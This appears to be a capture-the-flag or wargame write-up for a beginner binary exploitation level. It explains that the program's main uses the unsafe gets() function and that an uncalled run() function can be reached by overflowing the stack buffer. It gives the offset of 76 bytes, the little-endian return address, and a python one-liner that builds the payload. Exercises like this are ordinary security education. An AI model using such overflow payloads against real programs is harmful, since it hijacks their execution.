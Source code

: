 ![all function](./resources/level1_functions.png "functions")

```
the main function will call the function gets() which is unsafe since it doesnt controle the size of the input.

we will be giving input to the progm till we get an idea of the size of the buffer variable that was passed to gets to store our iput, our goal here is to overflow the buffer
```
![main function](./resources/main_function.png "main function")

```
the run() function was never called in the program but was bundled in the compiled program so it has a starting address in the global memory allocated when the program was executed
```
![run function](./resources/run_function.png "run function")

```
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA + adress of the run function so we can overflow the value of the EIP with adress of our function so it gets executed unstead of exiting the main function

we have litle indian addressing so we should reverse our input the adress of the run function is : 0x08048444

using python -c "print('A' * 76 + '\x44\x84\x04\x08')"
```